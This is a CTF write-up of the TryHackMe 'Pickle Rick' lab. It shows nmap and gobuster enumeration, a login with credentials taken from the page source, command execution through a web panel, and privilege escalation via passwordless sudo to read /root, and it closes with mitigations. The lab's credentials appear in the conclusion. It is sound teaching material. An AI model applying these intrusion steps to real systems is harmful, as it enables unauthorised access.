




# TryHackMe - Pickle Rick (CTF Write-up)

> Author: Adam Pawelczyk
> 
> Date: 2025-07-04
> 
> Category: Web
> 
> Difficulty: Easy
>
>[TryHackMe Link](https://tryhackme.com/room/picklerick)

---

## Challenge Description

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

We're provided with the virtual machine to deploy and investigate the web application hosted at: `10.10.77.26`


## Goal

Locate all three hidden ingredients across the system to help Rick craft his potion.


## TL;DR

- Scanned give IP address using `nmap` to reveal open ports 80 and 22.
- Found hardcoded credentials in HTML and robots.txt.
- Gained access to a web command execution panel.
- Retrieved 2 ingredients from accessible directories.
- Found the third in `/root` by exploiting full `sudo` privileges for `ww-data` user.


## Reconnaissance

#### Port Scan

We begin with a full port scan using `nmap` to identify exposed services:
```bash
sudo nmap 10.10.77.26 -sV -p-
```

Results: 
  ```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

The results show two open ports:
- Port 22: SSH
- Port 80: Apache web server


#### Web Exploration

Visiting the IP in a browser shows a Rick and Morty themed homepage.


Viewing the HTML source reveals a hardcoded username:




#### Directory and File Brute-Force

To discover hidden files and directories, we can use `gobuster`:

```bash
gobuster dir -u 10.10.77.26 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,pdf,js,md,php
```

Interesting findings:

- `/login.php`: Login page (needs password)



- `/robots.txt`: Contains a potential password

- `/clue.txt`: Contains: `Look around the file system for the other ingredient.`


## Initial Access

We successfully authenticate at `/login.php` using credentials found in the page source and `robots.txt`.


## Post-Login Exploration

Once logged in, we land on a "Command Panel" interface allowing command execution. Attempting to visit other tabs redirects to `/denied.php`



We can try a command to list files in the current directory:
 ```bash
 ls -la
```

Result:
  ```bash
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

We can see the first ingredient in the `Sup3rS3cretPickl3Ingred.txt` file, but we can't read it's content using `cat` or `vim` because these commands are disabled:



We can pivot to `strings` - a command that extracts human-readable strings from files and get our first ingredient:
```bash
strings Sup3rS3cretPickl3Ingred.txt
```


#### Deeper Enumeration

Following the clue from `clue.txt`, we explore the file system. We can read Rick's home directory:
```bash
ls -la /home/rick
```

And it contains:
```bash
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

Again, using `strings` we can get the second ingredient:
```bash
strings /home/rick/second\ ingredients
```


## Privilege Escalation

While exploring the file system, I noticed a `/root` directory. Attempting to access this directory results in a **Permission Denied** since the current user does not have access to this directory.

The final ingredient could be in this directory, so let's see if we can escalate our privileges.

#### Checking Sudo Permissions

We can check whether the current user has any `sudo` rights by running:
```bash
sudo -l
```

The result:
```bash
Matching Defaults entries for www-data on ip-10-10-77-26:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-77-26:
    (ALL) NOPASSWD: ALL
```

This output shows that `www-data` can run **any** command as `any` user without providing a password - this means **full root access** via `sudo`

#### Getting Root Access

Let's test this by listing the contents of the `/root` directory with root privileges:
```bash
sudo ls -la /root
```

Result:
```bash
total 36
drwx------  4 root root 4096 Jul 11  2024 .
drwxr-xr-x 23 root root 4096 Jul  4 12:32 ..
-rw-------  1 root root  168 Jul 11  2024 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  161 Jan  2  2024 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-------  1 root root  702 Jul 11  2024 .viminfo
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  4 root root 4096 Jul 11  2024 snap
```

We've found the `3rd.txt` file.

Let's read this file and get the third and final ingredient:
```bash
sudo strings /root/3rd.txt
```


## Conclusion

This CTF was a fun and beginner-friendly web challenge with Rick and Morty theme. The goal was to find three hidden ingredients by exploring a vulnerable web server. Here's a summary of what I did:
- Enumeration & Reconnaissance: I scanned for open ports, discovered a web server on port 80, and used tools like `gobuster` to enumerate hidden directories and files.
- Initial Access: I found hardcoded credentials (`R1ckRul3s` / `Wubbalubbadubdub`) and used them to log in via web login form.
- Command Execution via Web Interface: After logging in, I used a built-in command execution feature to enumerate the file system and locate hidden ingredient files.
- Privilege Escalation: While two ingredients were accessible, the third one was stored in protected area `/root`. I discovered that the `www-data` user had unrestricted `sudo` access without a password.

#### Skills Practiced

- Web application analysis.
- Web enumeration and directory/file brute-forcing using tools like `gobuster`.
- Linux filesystem navigation and basic commands.
- Privilege escalation via misconfigured `sudo` permissions.

#### Mitigations:

- Never hardcode credentials in we pages.
- Avoid giving unrestricted `sudo` access to web-facing users like `www-data`.
- Validate and sanitize user input in web interfaces to avoid abuse of command execution.

#### Final Thoughts

This challenge was a great introduction to web-based CTFs and demonstrated how exposed credentials, command execution features, and misconfigured `sudo` rights can lead to full server compromise.

**Note:** Passwords and flag values have been redacted in accordance with TryHackMe's write-up policy.